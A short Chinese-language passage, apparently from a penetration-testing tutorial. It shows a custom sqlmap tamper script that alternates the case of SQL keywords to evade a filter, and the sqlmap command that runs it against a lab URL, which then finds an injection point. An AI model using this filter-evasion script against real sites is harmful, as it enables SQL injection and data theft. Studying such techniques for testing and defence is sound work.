 注入失败

![image-20240414145242038](../图片/image-20240414145242038.png)



根据过滤情况进行编写大小写绕过模块

```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):


    return payload.replace("select","sElEct").replace("SELECT","seLect").replace("sleep","Sleep").replace("SLEEP","sLeep").replace("ELT","Elt").replace("elt","Elt").replace("and","And").replace("AND","And").replace("or","Or").replace("OR","oR").replace("xor","Xor").replace("XOR","XoR")
```

使用编写的tamper绕过模块

```
python sqlmap.py -u "http://192.168.100.2/sqli/new.php?id=1" --tamper bypass.py
```

成功绕过检测到注入点

![image-20240414222246608](../图片/image-20240414222246608.png)
